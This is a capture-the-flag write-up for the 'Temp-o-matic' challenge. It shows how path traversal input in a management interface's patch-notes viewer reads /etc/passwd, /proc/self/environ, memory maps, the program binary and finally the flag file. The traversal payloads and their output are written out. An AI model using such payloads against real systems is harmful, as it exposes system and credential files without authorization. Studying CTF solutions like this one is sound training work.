

### Admin UI / PWN-RE / Temp-o-matic

Flag: `CTF{I_luv_buggy_sOFtware}`

> The command you just found removed the Foobanizer 9000 from the DMZ. While scanning the network, you find a weird device called Tempo-a-matic. According to a Google search it's a smart home temperature control experience. The management interface looks like a nest of bugs. You also stumble over some gossip on the dark net about bug hunters finding some vulnerabilities and because the vendor didn't have a bug bounty program, they were sold for US$3.49 a piece. Do some black box testing here, it'll go well with your hat.

`$ nc mngmnt-iface.ctfcompetition.com 1337`

Let's connect and see:

```
$ nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
```

Let's try option 1:

```
1
Please enter the backdoo^Wservice password:
dfgdfgdfgdfgdf
Incorrect, the authorities have been informed!
```

Interesting, but let's continue our discovery. Let's try option 2:

```
2
The following patchnotes were found:
 - Version0.3
 - Version0.2
Which patchnotes should be shown?
dsfsdfsdfsdf
Error: No such file or directory
```

Oh! See that error? This means our input is used to open a file!

Let's try some things:

```
../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
_apt:x:104:65534::/nonexistent:/bin/false
user:x:1337:1337::/home/user:
```

To see the environment `../../../proc/self/environ`:

```
LANG=en_US.UTF-8
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOME=/home/unprivileged
LOGNAME=unprivileged
USER=unprivilegedSHELL
```

Or all files in memory:

```
../../../proc/self/maps
00400000-00401000 r-xp 00000000 08:01 512577                             /home/user/main
41414000-41415000 r-xp 00014000 08:01 512577                             /home/user/main
41615000-41616000 r--p 00015000 08:01 512577                             /home/user/main
41616000-41617000 rw-p 00016000 08:01 512577                             /home/user/main
41f69000-41f9b000 rw-p 00000000 00:00 0                                  [heap]
7efc221cc000-7efc2238c000 r-xp 00000000 08:01 512984                     /lib/x86_64-linux-gnu/libc-2.23.so
...
```

To download the CTF binary we can use `../../../proc/self/exe`.

I start inspecting the binary and see some interesting strings:


See that `patchnotes/` and `flag` ?

I feel lucky and try `flag` - but no luck. But that `patchnotes/` looks like a directory. Maybe our flag is one level up?

```
Which patchnotes should be shown?
../flag
CTF{I_luv_buggy_sOFtware}
```
